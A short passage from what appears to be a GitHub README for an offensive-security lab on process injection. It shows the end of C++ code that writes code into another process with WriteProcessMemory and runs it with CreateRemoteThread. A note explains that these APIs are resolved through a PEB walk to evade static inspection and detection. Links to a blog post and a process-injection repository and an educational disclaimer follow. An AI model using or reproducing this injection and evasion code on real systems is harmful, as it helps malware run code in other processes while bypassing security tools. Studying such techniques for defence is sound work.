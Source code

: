 ```cpp
                pWPM = (WPMType)ptrGetProcAddress(kernel32Base, "WriteProcessMemory");
                pWPM(hProcess, pRemoteCode, (PVOID)code, (SIZE_T)p_len, (SIZE_T*)NULL);
                pCRT = (CRTType)ptrGetProcAddress(kernel32Base, "CreateRemoteThread");
                hThread = pCRT(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteCode, NULL, 0, NULL);

                if (hThread != NULL) {
                    WaitForSingleObject(hThread, 500);
                    CloseHandle(hThread);
                    return 0;
                }

                return -1;
                CloseHandle(hProcess);
            }

        }
    }
    return 0;
}

``` 
### Note
In this lab, we use PEB structure to resolve APIs dynamically to avoid the static inspection. I will prefer to read my blog post to better understand the impact of PEB walk and PEB walk with API obfuscation technique.

[Blog Post](https://systemweakness.com/peb-walk-avoid-api-calls-inspection-in-iat-by-analyst-and-bypass-static-detection-of-1a2ef9bd4c94)

## Demonstration

![](Asset/PE.gif)

For GitHub-Repo Click Here: [Offensive-Panda/ProcessInjectionTechniques](https://github.com/Offensive-Panda/ProcessInjectionTechniques/tree/main/PEB_WALK_INJECTION/PEB_WALK_INJECTION)

### Disclaimer
The content provided on this series is for educational and informational purposes only. It is intended to help users understand cybersecurity concepts and techniques for improving security defenses!
